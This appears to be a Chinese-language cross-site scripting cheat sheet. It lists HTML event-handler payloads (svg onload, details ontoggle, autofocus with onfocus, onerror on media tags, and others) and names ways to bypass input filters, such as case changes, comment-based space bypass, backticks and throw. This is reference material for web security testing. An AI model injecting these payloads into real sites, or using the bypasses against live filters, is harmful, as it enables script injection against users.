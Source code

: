 ```

<details> 标签通过提供用户开启关闭的交互式控件，规定了用户可见的或者隐藏的需求的补充细节。ontoggle 事件规定了在用户打开或关闭 <details> 元素时触发：
<details ontoggle=alert(1);>

<svg> 标签用来在HTML页面中直接嵌入SVG 文件的代码。
<svg onload=alert(1);>

<select> 标签用来创建下拉列表。
<select onfocus=alert(1)></select
通过autofocus属性规定当页面加载时元素应该自动获得焦点，这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户去触发：
<select onfocus=alert(1) autofocus>

<iframe> 标签会创建包含另外一个文档的内联框架。
<iframe onload=alert(1);></iframe>

<video> 标签定义视频，比如电影片段或其他视频流。<audio> 标签定义声音，比如音乐或其他音频流。

<audio src=x  onerror=alert(1);>
<video><source onerror=alert(1)>

<body> 标签定义文档的主体。
<body onload=alert(1);>
onscroll 事件在元素滚动条在滚动时触发。我们可以利用换行符以及autofocus，当用户滑动滚动条的时候自动触发，无需用户去点击触发
<body
onscroll=alert(1);><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>

<textarea> 标签定义一个多行的文本输入控件。
<textarea onfocus=alert(1); autofocus>

<keygen autofocus onfocus=alert(1)> //仅限火狐

<marquee onstart=alert(1)></marquee> //Chrome不行，火狐和IE都可以

<isindex type=image src=1 onerror=alert(1)>//仅限于IE

```
**绕过过滤方法**
```
【大小写】

【没有分号】

【Flash】

【Fuzz进行测试】

【双层标签绕过】

【空格过滤】
/**/注释符号绕过
/符号绕过

【引号过滤】
如果是html标签中，可以不用引号
在js中，可以用反引号代替单双引号

【括号过滤】
使用throw绕过
 throw 语句用于当错误发生时抛出一个错误

【关键字过滤】
大小写绕过
```